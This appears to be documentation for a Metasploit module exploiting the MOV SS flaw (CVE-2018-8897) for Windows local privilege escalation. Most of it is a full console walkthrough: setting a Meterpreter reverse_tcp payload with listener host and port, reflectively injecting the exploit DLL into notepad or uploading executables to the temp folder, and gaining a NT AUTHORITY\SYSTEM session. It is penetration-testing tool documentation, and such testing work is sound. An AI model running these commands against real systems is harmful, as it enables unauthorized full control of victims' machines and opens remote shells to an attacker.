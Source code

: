 ## Description

This module exploits a MOV SS vulnerability that is specifically made against Microsoft Windows
(except for Windows XP).

Depending on the value of `USE_INJECTION` It will either inject a dll with the exploit
code into a process, or it will upload a pre-compiled exploit onto the target machine, followed
by the final payload (such as a Meterpreter) in order to gain remote code execution.

## Vulnerable Target

Please note that this module may not work with certain hypervisors (such as VMWare). You should
test it on a real machine if possible.

## Verification Steps
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.135.111:4567 
[*] Sending stage (206403 bytes) to 192.168.136.142

meterpreter > getuid
Server username: DESKTOP-QGIC71I\msfuser
meterpreter > sysinfo
Computer        : DESKTOP-QGIC71I
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/mov_ss
msf5 exploit(windows/local/mov_ss) > show options

Module options (exploit/windows/local/mov_ss):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   EXECUTE_DELAY  3                no        The number of seconds to delay before executing the exploit if USE_INJECTION=false
   EXPLOIT_NAME                    no        The filename to use for the exploit binary if USE_INJECTION=false (%RAND% by default).
   PATH                            no        Path to write binaries if if USE_INJECTION=false(%TEMP% by default).
   PAYLOAD_NAME                    no        The filename for the payload to be used on the target host if USE_INJECTION=false (%RAND%.exe by default).
   SESSION        1                yes       The session to run this module on.
   USE_INJECTION  true             yes       Use in-memory dll injection rather than exe file uploads.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.135.111  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf5 exploit(windows/local/mov_ss) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/mov_ss) > set lhost 192.168.135.111
lhost => 192.168.135.111
msf5 exploit(windows/local/mov_ss) > set lport 4567
lport => 4567
msf5 exploit(windows/local/mov_ss) > run

[*] Started reverse TCP handler on 192.168.135.111:4567 
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Checking target...
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Target Looks Good... trying to start notepad
[*] Launching notepad to host the exploit...
[+] Process 4964 launched.
[*] Reflectively injecting the exploit DLL into 4964...
[*] Exploit injected. Injecting payload into 4964...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 192.168.136.142

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.136.142 - Meterpreter session 3 closed.  Reason: User exit
msf5 exploit(windows/local/mov_ss) > set USE_INJECTION false
USE_INJECTION => false
msf5 exploit(windows/local/mov_ss) > run

[*] Started reverse TCP handler on 192.168.135.111:4567 
[*] Attempting to PrivEsc on DESKTOP-QGIC71I via session ID: 1
[*] Exploit uploaded on DESKTOP-QGIC71I to C:\Users\msfuser\AppData\Local\Temp\ACLgNJAJ.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-QGIC71I to C:\Users\msfuser\AppData\Local\Temp\kWDncKCjHtb.exe
[*] Running exploit C:\Users\msfuser\AppData\Local\Temp\ACLgNJAJ.exe with payload C:\Users\msfuser\AppData\Local\Temp\kWDncKCjHtb.exe
[*] Sending stage (206403 bytes) to 192.168.136.142
^C[-] Exploit failed: Interrupt 
msf5 exploit(windows/local/mov_ss) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                Connection
  --  ----  ----                     -----------                                ----------
  1         meterpreter x64/windows  DESKTOP-QGIC71I\msfuser @ DESKTOP-QGIC71I  192.168.135.111:4567 -> 192.168.136.142:49696 (192.168.136.142)
  4         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-QGIC71I      192.168.135.111:4567 -> 192.168.136.142:49699 (192.168.136.142)

msf5 exploit(windows/local/mov_ss) > exit
```

## Build instructions
For both the dll and exe, use Visual studio solutions found in
./external/source/exploits/cve-2018-8897
then copy the resulting binaries to
./data/exploits/cve-2018-8897
